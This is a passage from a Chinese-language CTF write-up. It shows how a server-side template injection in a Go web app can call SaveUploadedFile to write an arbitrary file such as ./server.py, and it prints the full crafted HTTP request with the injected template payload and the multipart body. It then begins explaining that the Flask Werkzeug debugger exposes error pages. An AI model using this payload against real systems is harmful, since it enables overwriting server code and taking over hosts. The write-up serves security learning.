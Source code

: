 ```http
This is the file content
--01f54ee8f2872c8a0d42d14f70cdc1fe--
```

得到的f和fhs如下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209210327544.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241209210224173.png)

现在无需上传接口，通过ssti我们能构造向靶机写入任意文件。由于go语言的特性，函数的返回值必须被接收或使用空白标识符 _ 忽略，所以两个返回值的request FormFile无法直接调用

写文件：

```http
GET /admin?name={{c.SaveUploadedFile(c.FormFile(c.Request.Header.Filename[0]),c.Request.Header.Filepath[0])}} HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: Phpstorm-c886be16=4fe54ddd-bac0-49c8-891f-b23f2d87d891; session-name=MTczMzc0NDkzM3xEWDhFQVFMX2dBQUJFQUVRQUFBal80QUFBUVp6ZEhKcGJtY01CZ0FFYm1GdFpRWnpkSEpwYm1jTUJ3QUZZV1J0YVc0PXx9VHD8fgMEvqUWF-KwBidg8If0fTSh8a3uZYJQX7HK8g==
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Content-Length: 191
Content-Type: multipart/form-data; boundary=01f54ee8f2872c8a0d42d14f70cdc1fe
Filename: file
Filepath: ./server.py

--01f54ee8f2872c8a0d42d14f70cdc1fe
Content-Disposition: form-data; name="file"; filename="test.png"
Content-Type: image/png

This is the file content
--01f54ee8f2872c8a0d42d14f70cdc1fe--
```



### 题解

写文件跟这道题有什么关系呢？

传参`/flask?name=`，有报错信息。

报错页面由Werkzeug Debugger提供。而Werkzeug Debugger 是 Flask 在调试模式下的默认功能
